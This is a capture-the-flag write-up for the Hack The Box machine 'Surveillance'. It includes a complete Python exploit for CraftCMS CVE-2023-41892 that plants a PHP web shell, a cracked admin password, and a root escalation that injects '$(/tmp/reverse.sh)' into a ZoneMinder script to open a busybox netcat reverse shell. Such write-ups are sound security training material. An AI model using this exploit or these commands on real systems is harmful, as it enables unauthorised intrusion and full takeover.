


Surveillance was a complex and challenging box that required multiple exploitation techniques, including leveraging vulnerabilities in CraftCMS and ZoneMinder, along with performing lateral movement and privilege escalation.

# Diagram



## Information Gathering

### Portscan

---
- `sudo hping3 -S --scan known 10.10.11.245`
    
    
    
- `sudo hping3 -S --scan 1-65535 10.10.11.245`
    
    
    
- `nmap -sVC -Pn -p 22,80 10.10.11.245 -n -T4`
    
    
    

## Enumeration

### HTTP 80

---

*When trying to access [http://10.10.11.245](http://10.10.11.245) it redirects to* [http://surveillance.htb/](http://surveillance.htb/), so we need to configure this in our DNS file

- `/etc/hosts`
    
    
    

Let's enumerate subdomains first

- `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://surveillance.htb -H "Host: FUZZ.surveillance.htb" -mc 200`
    
    
    

At the end of the main page, it is possible to see that they use CraftCMS version 4.4.14

- `view-source`
    
    
    
- [http://surveillance.htb/admin/login](http://surveillance.htb/admin/login) 
    
    

## Exploitation

### CraftCMS 4.4.14

Searching for vulnerabilities in the CraftCMS version, a possible RCE was found

**CVE-2023-41892**

Searching for a PoC, the following page was found

[https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce)

Some code changes were necessary

- `cve-2023-41892.py`
    
    ```python
    import requests
    import re
    import sys
    
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
    }
    
    def writePayloadToTempFile(documentRoot):
        data = {
            "action": "conditions/render",
            "configObject[class]": "craft\\elements\\conditions\\ElementCondition",
            "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
        }
    
        files = {
            "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
            <image>
            <read filename="caption:&lt;?php @System(@$_REQUEST['cmd']); ?&gt;"/>
            <write filename="info:DOCUMENTROOT/cpresources/shell.php">
            </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
        }
    
        response = requests.post(url, headers=headers, data=data, files=files)
    
    def getTmpUploadDirAndDocumentRoot():
        data = {
            "action": "conditions/render",
            "configObject[class]": "craft\\elements\\conditions\\ElementCondition",
            "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
        }
    
        response = requests.post(url, headers=headers, data=data)
    
        pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
        pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'
    
        match1 = re.search(pattern1, response.text, re.DOTALL)
        match2 = re.search(pattern2, response.text, re.DOTALL)
    
        if match1 and match2:
            return match1.group(1), match2.group(1)
        else:
            print("Error: Could not find upload_tmp_dir or DOCUMENT_ROOT in the response.")
            return None, None
    
    def trigerImagick(tmpDir):
        data = {
            "action": "conditions/render",
            "configObject[class]": "craft\\elements\\conditions\\ElementCondition",
            "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
        }
        response = requests.post(url, headers=headers, data=data)
    
    def shell(cmd):
        response = requests.get(url + "/cpresources/shell.php", params={"cmd": cmd})
        match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)
    
        if match:
            extracted_text = match.group(1).strip()
            print(extracted_text)
        else:
            return None
        return extracted_text
    
    if __name__ == "__main__":
        if(len(sys.argv) != 2):
            print("Usage: python CVE-2023-41892.py <url>")
            exit()
        else:
            url = sys.argv[1]
            print("[-] Get temporary folder and document root ...")
            upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
            tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir
            print("[-] Write payload to temporary file ...")
            try:
                writePayloadToTempFile(documentRoot)
            except requests.exceptions.ConnectionError as e:
                print("[-] Crash the php process and write temp file successfully")
    
            print("[-] Trigger imagick to write shell ...")
            try:
                trigerImagick(tmpDir)
            except:
                pass
    
            print("[-] Done, enjoy the shell")
            while True:
                cmd = input("$ ")
                shell(cmd)
    ```
    
- `python CVE-2023-41892.py http://surveillance.htb`
    
    
    

## Lateral Moviment

---

*After entering the machine with **www-data** I tried to run some commands, but nothing was effective as it was limited.*

Then I ran `lastlog` to check which users are active.


It is possible to see that there is a user Matthew who logged in last time. Searching for backup files

`find / -name "*.*bak*" -or -name "*.backup*" 2>/dev/null`

I found a folder `~/html/craft/storage/backups`

- `ls -la ~/html/craft/storage/backups`
    
    
    

Transferred the file via netcat.

```csharp
nc -lvnp 3340 < surveillance--2023-10-17-202801--v4.4.14.sql.zip 
nc 10.10.11.245 3340 > surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

- `surveillance--2023-10-17-202801--v4.4.14.sql` → *It is possible to see that it adds a user matthew in the SQL*
    
    
    
    
    
    ```sql
    INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
    ```
    
- **cracking the hash on [crackstation.net](http://crackstation.net) → starcraft122490**
    
    
    

Great, now switching to user matthew

- `su matthew`
    
    
    

- `flag`
    
    
    

## Priv Escalation

### ZoneMinder 1.36.32
---

Now running linpeas.

- `linpeas.sh` *→* Identified “ZoneMinder”
    
    
    

ZoneMinder is a free, open-source software application for monitoring via closed-circuit television - developed to run under Linux and FreeBSD and released under the terms of the GNU General Public License (GPL). Users control ZoneMinder via a web-based interface.

- `dpkg -l | grep zoneminder` →
    
    
    

Checking the version of ZoneMinder, I noticed it was v1.36.32.

From there, viewing the information on Metasploit, it is possible to see that it is vulnerable

- `use unix/webapp/zoneminder_lang_exec`
`info -d`
    
    
    

To use this module, I will have to do a manual port forwarding.

- `ssh -L 2222:127.0.0.1:8080 matthew@surveillance.htb`
    
    
    

Accessing via web on port 2222.

- [http://127.0.0.1:2222](http://127.0.0.1:2222/)
    
    
    

None of the previous creds worked. So, I decided to run the module in Metasploit.

- `use exploit/unix/webapp/zoneminder_snapshots`
    
    
    
- **`exploit`**
    
    
    

The current user can execute any Perl script located in  **`/usr/bin/`** that starts with **`zm`** and is followed by any combination of letters from **`a`** a **`z`** (uppercase or lowercase), without needing a sudo password.

- `sudo -l`
    
    
    

Checking the Perl files that the user has access to

- `ls -l /usr/bin/zm*.pl`
    
    
    

Observing the update file

- `cat /usr/bin/zmupdate.pl`
    
    
    
    
    

It is a script intended to check and update the ZoneMinder database. It basically needs a password to run. I can try to send a command with the password obtained by linpeas.

- Payload
    
    ```shell
    #!/bin/bash
    busybox nc 10.10.16.4 5580 -e sh
    ```
    
- `sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/reverse.sh)' --pass=ZoneMinderPassword2023`
    
    
    

Checking on netcat

- `nc -lvnp 5580`
    
    
    

We got the shell with root.
